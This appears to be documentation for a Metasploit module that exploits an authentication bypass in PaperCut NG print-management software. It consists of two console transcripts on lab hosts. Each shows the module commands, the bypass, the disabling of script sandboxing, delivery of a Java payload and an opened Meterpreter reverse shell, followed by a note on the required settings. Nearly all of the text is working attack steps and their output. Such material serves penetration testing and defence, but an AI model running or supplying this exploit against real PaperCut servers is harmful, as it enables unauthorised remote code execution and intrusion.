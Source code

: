 
### Tested on Linux x64 with PaperCut NG Version 19.2.7.62200
```
msf6 > use exploit/multi/http/papercut_ng_auth_bypass
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/papercut_ng_auth_bypass) > set VERBOSE true
VERBOSE => true
msf6 exploit(multi/http/papercut_ng_auth_bypass) > set RHOSTS 10.0.4.101
RHOSTS => 10.0.4.101
msf6 exploit(multi/http/papercut_ng_auth_bypass) > set LHOST 10.0.4.101
LHOST => 10.0.4.101
msf6 exploit(multi/http/papercut_ng_auth_bypass) > run

[-] Handler failed to bind to 10.0.4.101:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Bypass successful and created session: JSESSIONID=node01j4of6hup0i131vs585edo0uqb2.node0
[+] The target is vulnerable.
[*] Setting server option 'print-and-device.script.enabled' to 'Y') was 'N'
[*] Setting server option 'print.script.sandboxed' to 'N') was 'Y'
[*] Using URL: http://10.0.4.101:8080/PWMM7S32xpRY7
[*] Server started.
[*] Sending payload for requested uri: /PWMM7S32xpRY7.jar
[*] Sending payload for requested uri: /PWMM7S32xpRY7.jar
[*] Sending stage (58851 bytes) to 10.0.2.100
[*] Meterpreter session 1 opened (10.0.2.100:4444 -> 10.0.2.100:35072) at 2023-05-11 01:25:25 +0000
[*] Server stopped.
[*] Rolling back 'print.script.sandboxed' to 'Y'
[*] Setting server option 'print.script.sandboxed' to 'Y') was 'N'
[*] Rolling back 'print-and-device.script.enabled' to 'N'
[*] Setting server option 'print-and-device.script.enabled' to 'N') was 'Y'

meterpreter >
```
Note: Sandboxing is enabled by default in this version, scripting must be enabled and sandboxing must be disabled.


### Tested on Linux x64 with PaperCut NG Version 18.3.9.49588d
```
msf6 > use exploit/multi/http/papercut_ng_auth_bypass
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/papercut_ng_auth_bypass) > set VERBOSE true
VERBOSE => true
msf6 exploit(multi/http/papercut_ng_auth_bypass) > set RHOSTS 10.0.4.101
RHOSTS => 10.0.4.101
msf6 exploit(multi/http/papercut_ng_auth_bypass) > set LHOST 10.0.4.101
LHOST => 10.0.4.101
msf6 exploit(multi/http/papercut_ng_auth_bypass) > run

[-] Handler failed to bind to 10.0.4.101:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Bypass successful and created session: JSESSIONID=node0re9f1cbww5v11qgrc7y4g9qv3.node0
[+] The target is vulnerable.
[*] Using URL: http://10.0.4.101:8080/o30YxAzAA69ISJ8
[*] Server started.
[*] Sending payload for requested uri: /o30YxAzAA69ISJ8.jar
[*] Sending stage (58851 bytes) to 10.0.2.100
[*] Meterpreter session 1 opened (10.0.2.100:4444 -> 10.0.2.100:40328) at 2023-05-11 02:29:15 +0000
[*] Server stopped.

```
